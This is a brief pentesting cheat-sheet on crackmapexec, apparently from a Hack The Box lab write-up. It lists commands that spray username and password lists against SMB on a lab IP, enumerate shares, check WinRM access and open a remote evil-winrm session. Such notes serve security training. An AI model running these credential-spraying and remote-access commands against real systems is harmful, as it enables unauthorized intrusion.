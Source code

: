 # 2.1 crackmapexec

* Common Services like ldap, smb, winrm, ssh, ... brute forcing tool
* We need a list of users and password.
  * This list could be extracted usernames and password from database using SQLi
  * We may need to further enumerate usernames from domain using SQLi
  * As we don't know which user is assigned which password, we could use crackmapexec for this.

### Get Username and Password

* `crackmapexec smb 10.10.10.179 -u usernames.txt -p passwords.txt`
  * You will get _foundUsername_ and _foundPassword_ from this.

### SMB Enumeration

* `crackmapexec smb 10.10.10.179 -u foundUsername -p foundPassword --shares`

### Winrm Enumeration

* `crackmapexec winrm 10.10.10.179 -u foundUsername -p foundPassword`
  * This will show if the machine is vulnerable or not.
* `evil-winrm -i 10.10.10.179 -u megacorp\\foundUsername -p foundPassword`



